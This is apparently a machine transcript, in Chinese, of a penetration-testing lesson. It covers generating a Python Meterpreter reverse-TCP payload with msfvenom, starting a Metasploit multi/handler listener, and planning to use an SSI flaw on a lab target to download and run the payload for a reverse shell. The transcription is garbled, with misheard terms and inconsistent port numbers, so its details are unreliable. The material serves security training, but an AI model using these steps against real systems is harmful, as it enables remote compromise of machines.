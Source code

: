 咱们来生成笑。今天呢哎我们首先切换到桌面。好莱斯。今天我们不使用PHP哎的像，我们使用pasthon像来尝试。首先MSF。之后杠PIpathon。mattter printer之后是reverse。

TCP law host。也就是咱们靶厂IP地址来，我们来查看一下靶厂的IP地址。192。168。1。103啊，把它 copypy出来。paste完之后lower port。等于4445。

设是444哎之后杠F。run之后重定向到哎，这个root a。啊，咱们重新输入MSFVENOF呃，咱们之后是杠P表示它对应的平台的 shellten。Metter，没。Worse。TCP。

Law host。等于92。168。1。103lawport。表示他监听端口等于4444。生成的哎是一个源代码run重定向的。root目录下的desktop。然后那咱们是要。点PY回撤。

咱们这时候哎通过这个MSFVENOM哎生成了一个基于pyon的啊这样一个sell，并且它返回的哎这个地址是192。168。1。103，它监听的端口啊是444啊这样一个端口。

咱们在生成这样一个excel之后，哎，需要打开mettterpo，启动监听。首先输MSF control来打开mattaport。因为mateport啊是一个比较大的安全框架。

里边集成了渗透测试所有哎的这样一个过程的工具。所以说打开速度是比较慢的，因为它需要加载很多的模块。

![](img/a85fd648de00c8c2aae5ba1303d44c36_20.png)

打开之后，哎，我们。来启动监庆。首先use export it。之后来是MULTI。开子了。回撤，然后设置payload set payload。

之后哎我们因为这里使用的是pathon metal printer，我们把这个复制过来。花费哎之后我们。paste回去了。设置完这些呃那个expo和 payload之后，我们需要来设置对应的参数。

首先使用show options，查看一下我们需要设置哪些参数回撤。我们在这里啊可以看到需要设置啊咱们监听的啊这个主机以及对应端口，这里是跟咱们生成这个。web上还是。一样的需要设置对应的参数。

l host我们设置。卡利的这个IP地址。使用st。law host哎之后空格，哎之后粘贴进来。回去。咱们设置啊完成之后，需要查看一下是否设置成功，依然使用so。Opts回车。这时候哎咱们设置成功。

设置完之后，使用装来开启监听回车。咱们下面哎就来靶场上，也就是通过SSI这个漏洞来下载咱们对应啊这个脚本，并且执行反弹效。这里哎咱们输一个一，然后哎这里咱们输入对应的CMD。

首先哎咱们这里要使用下载的功能。通过什么下载呢？通过1个HTTP来这样一个写站点进行下载。192。168。1。103哎，之后是咱们shall点PY。咱们会想到。

咱们当前哎卡利linux并没有开启HTTP哎这样一个服务器，也就是阿帕奇服务器。那么咱们就需要哎开启对应的服务器，并且把hell移移送到哎咱们这个阿帕奇服务器跟目录。下面咱们在终端当中操作。


